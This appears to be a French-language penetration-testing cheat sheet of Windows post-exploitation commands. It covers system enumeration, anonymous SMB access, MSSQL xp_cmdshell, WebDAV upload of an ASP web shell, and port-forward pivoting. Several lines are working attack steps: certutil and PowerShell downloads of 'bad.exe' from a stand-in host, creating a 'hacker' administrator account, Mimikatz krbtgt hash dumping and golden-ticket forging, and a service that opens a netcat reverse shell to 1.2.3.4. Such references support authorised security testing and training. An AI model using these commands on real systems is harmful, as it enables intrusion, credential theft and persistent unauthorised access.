 <h2>Batch</h2>

`systeminfo` → Obtenir des renseignements sur le système

`tasklist` → Lister les processus

`netstat -ano` → Liste des connexions tcp

`dir sysprep /s /b` → Trouver un fichier dans le repertoire courant et ses sous-dossiers

`wmic qfe list` → Lister les patch installés (KB)

`certutil.exe -urlcache -split -f "http://site.com/bad.exe" bad.exe` → Wget en batch

`certutil.exe -decode bad.txt bad.exe` → Base64 decode en cmd

`net user Domain/hacker hackerhacker /add` → Ajoute un utilisateur

`net localgroup administrators hacker /add` → Ajoute un utilisateur à un groupe

`net use k: \\srv.remote.org\c$` → Connexion au disque distant c sur la partition k

`wmic useraccount where name='user'` → Récupère des informations sur un utilisateur (SID)

`net users [username]` pour obtenir des renseignements sur les utilisateurs

`net account` information sur la politique de mot de passe

## Samba

#### smbclient

Trouver la version

```
nmap -v -sSVC -p445 --script smb-os-discovery host
```

Exemple de share connus: IPC$, 
Connexion en tant qu'utilisateur Guest

```
smbclient -U guest% \\\\host\\share
```

Connexion en tant qu'anonyme

```
smbclient -U "" -N \\\\host\\share
```

Énumération de share

```
smbclient -U "" -N -L \\\\host\\share
nmap -v --script smb-enum-shares -p U:137,T:139 host
```

## MSSQL

#### sqsh

```
sqsh -S 1.2.3.4 -u user
EXEC master..xp_cmdshell 'whoami'
go
```

<h2>Powershell</h2>

`{(New-Object System.Net.WebClient).DownloadFile("http://site.com/file", "C:\\Users\Public\file")}` → Wget en powershell

`get-WmiObject -class Win32_Share`

<h2>Mimikatz</h2>

`privilege::debug`

`lsadump::lsa /inject /name:krbtgt` → Récupérer le NTLM hash de krbtgt

`kerberos::golden /user:[USER] /domain:[DOMAINE] /sid:[SID de USER] /krbtgt:[NTLM hash de krbtgt] /ticket:evil.tck /ptt` → Créé et inject un golden ticket à la session


## WebDav

Cadaver pour se connecter,
Sur Windows 2000/2003, bypass la restriction de l'extension avec shell.asp;.jpg

```
PUT shell.jpg
COPY shell.asp;.jpg
```

## Privesc

Créer un service (groupe administrateur):

```
sc create cmdsvc binpath= "C:\tmp\nc64.exe 1.2.3.4 9999 -e cmd" type= own type= interact
sc cmdsvc start
```

Churrasco (NT Authorithy \ Network Service), lancer deux fois maybe: 

```
churrasco.exe
```

## Pivoting

Port forwarding natif windows:

```
netsh interface portproxy add v4tov4 listenport=4445 listenaddress=0.0.0.0 connectport=4445 connectaddress=<your.address>
```
